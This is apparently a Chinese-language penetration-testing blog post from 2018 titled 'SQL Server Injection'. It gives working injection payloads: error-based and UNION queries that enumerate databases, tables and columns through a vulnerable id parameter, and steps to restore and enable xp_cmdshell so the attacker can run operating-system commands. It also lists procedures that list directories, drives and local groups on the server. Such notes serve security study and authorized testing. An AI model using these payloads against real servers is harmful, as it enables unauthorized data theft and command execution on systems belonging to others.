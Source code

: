 +++
title = "SQL Server注入"
topics = ["Pentest"]
tags = ["injection"]
description = "SQL Server注入常见的一些注入手法"
date = "2018-09-04T10:09:17+08:00"
draft = false
+++

### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 判断是否为sa权限
![75](/img/post/20180904-105516.png)

### 0x02 进行注入
* 得到所有数据库名字
![75](/img/post/20180904-110306.png)
```
--报错得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
select id,name from msg where id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
```
![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```
--得到数据库test的第一张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名（先得到article的表id，然后得到列名）
![60](/img/post/20180904-112859.png)
![75](/img/post/20180904-112938.png)

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x03 常见的SQL Server扩展存储过程 
* 执行系统命令

```sql
--判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')

--若xp_cmdshell被删除，可恢复且支持绝对路径的恢复 
exec master..sp_addextendedproc 'xp_cmdshell','xplog70.dll';

--开启xp_cmdshell
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;

--使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地用户组
exec master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```






